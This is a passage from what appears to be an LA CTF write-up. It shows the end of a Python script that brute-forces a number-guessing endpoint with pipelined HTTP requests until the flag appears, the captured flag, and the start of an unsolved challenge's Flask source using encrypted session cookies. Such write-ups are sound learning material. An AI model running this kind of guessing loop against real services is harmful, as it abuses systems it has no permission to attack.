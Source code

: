 ```python

    data = ''
    for num in numbers:
        data += f"GET /api/guess/?num={num} HTTP/1.1\r\nHost: {HOST}\r\nConnection: keep-alive\r\nAccept: application/json\r\nUser-Agent: Python/3.x\r\n\r\n"

    sock.sendall(data.encode())
    
    try:
        while True:
            response = sock.recv(4096).decode()
            if not response:  # If server closes connection
                break
            print(response)
            if 'lactf{' in response:
                print(f"Found flag! {response}")
                sys.exit(0)  # Exit immediately when flag is found
    except socket.timeout:
        print("Timeout reached")
    finally:
        sock.close()

sys.exit(0)  # Exit after trying all batches
```
LESGOOOO!!!

![numbasol](/commons/ctfs/lactf/numbasol.png)

> lactf{th1s_fl4g_1s_1nc0nv3n13ntly_l0ng_4nd_full_0f_m1sd1r3ct10n_my_numbah_is_60_watah}

## Whack a mole (463 points, 10 solves) (***UNSOLVED***)

Basically, you input your name, just this.

![whack](/commons/ctfs/lactf/whack.png)

### During the CTF

Here is the source code:

```python

from flask import Flask, session, request, redirect, render_template
import os
import random as rng
from cryptography.fernet import Fernet
from flask.sessions import SessionInterface, SecureCookieSessionInterface
from itsdangerous import URLSafeTimedSerializer
from itsdangerous.encoding import base64_decode, base64_encode

flag = os.environ.get("FLAG", "lactf{owo_uwu}")

app = Flask(__name__, static_folder="static")
app.secret_key = os.urandom(32).hex()

key = Fernet.generate_key()
f = Fernet(key)

class EncryptedSerializer(URLSafeTimedSerializer):
    def load_payload(self, payload, *args, serializer = None, **kwargs):
        encrypted = base64_decode(payload)
        decrypted = f.decrypt(encrypted)
        return super().load_payload(decrypted, *args, serializer, **kwargs)

```